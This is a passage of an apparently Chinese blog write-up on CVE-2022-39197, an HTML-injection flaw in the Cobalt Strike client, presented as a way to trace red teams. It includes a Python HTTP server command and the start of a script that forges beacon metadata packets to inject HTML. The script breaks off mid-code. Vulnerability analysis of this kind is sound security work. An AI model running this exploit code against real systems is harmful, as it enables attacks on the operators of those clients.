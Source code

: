 
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114742.png)

可以看到这里已经成功注入了html代码

漏洞分析：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114744.png)

BeaconEntry的toMap方法，是将teamserver发送过来的数据以map的数据结构存储并回显到客户端，由于teamserver获取的数据本来就可以被伪造修改，而在客户端中也并未对获取的数据进行过滤，导致攻击者可以注入恶意的html

## 利用CVE-2022-39197溯源红队

利用python开启http服务：

    
    
    python -m http.server 80  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114746.png)

在这里值得注意的是最大的长度为117，因此我们要想办法将html缩短，

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114747.png)

    
    
    #!/usr/bin/env python  
    # coding=utf-8  
    import rsa  
    import random  
    import urllib.request  
    import base64  
      
    def run(url,ip,Computer_name,User_name,Process_name,pubkey):  
        ip = bytes(ip.encode('utf-8')) + b'\x09'  
        Computer_name = bytes(Computer_name.encode('utf-8')) + b'\x09'  
        User_name = bytes(User_name.encode('utf-8')) + b'\x09'  
        Process_name = bytes(Process_name.encode('utf-8')) + b'\x09'  
      
        pack = b'\xC6\x21\x5B\xCD\xAE\x4A\x74\x55\x1E\xE3\x60\x94\x90\xBA\xE2\x17'  
        pack += b'\xA8\x03\xA8\x03'  
        pack += random.randint(0 , 65535) .to_bytes(4, 'big')+random.randint(0 , 65535) .to_bytes(4, 'big')  
        pack += b'\x00\x00\x45\x80\x00\x00\x04\x36\x2E\x32\x09'  
        pack += ip  
        pack += Computer_name  
        pack += User_name  
        pack += Process_name  
      
        pack = b'\x00\x00\xBE\xEF' + len(pack).to_bytes(4, 'big') +pack  
        print(pack)  
        key = '-----BEGIN PUBLIC KEY-----\n'+pubkey+'\n-----END PUBLIC KEY-----'  
        pubkey = rsa.PublicKey.load_pkcs1_openssl_pem(key)  
      